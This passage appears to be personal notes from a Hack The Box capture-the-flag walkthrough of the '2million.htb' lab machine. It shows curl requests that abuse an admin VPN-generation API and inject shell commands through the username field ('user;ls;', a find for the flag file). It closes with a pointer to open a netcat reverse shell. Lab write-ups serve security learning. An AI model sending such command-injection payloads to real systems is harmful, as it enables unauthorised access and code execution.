 ![[Pasted image 20230903230123.png]]

- We've now verified ourselves as the admin
- Running the following, we determine this to be true
```
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -sv http://2million.htb/api/v1 | jq
```

![[Pasted image 20230903230718.png]]

- Verified user is the admin
- Generate a vpn certificate for this user

``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1}' | jq
```

- New error message "Missing parameter: username"
![[Pasted image 20230903231455.png]]

```bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/geanerate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user"}' 
```

- Our VPN cert has been generated!
![[Pasted image 20230903232814.png]]

- These parameter values are going through some type of validation/verification. There's a what mechanism is in place is not checking for dangerous characters. 
- Append ;ls; to the end of the username and see what we get
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;ls;"}'
```

- It listed several files!
![[Pasted image 20230903233921.png]]

- Find the user flag
``` bash
curl --cookie "PHPSESSID=jgfva48frp29fvdlt5ns0q3lmh" -vX POST http://2million.htb/api/v1/admin/vpn/generate -H "Content-Type: application/json" -d '{"email":"user@hackthebox.htb", "is_admin":1, "username":"user;find / -type f -name user.txt;"}'
```

![[Pasted image 20230903234247.png]]

- Using the find command, we've found the user.txt flag, however, when I tried cat'ing the file, nothing worked. 
- Initiate your netcat listener and execute your reverse shell
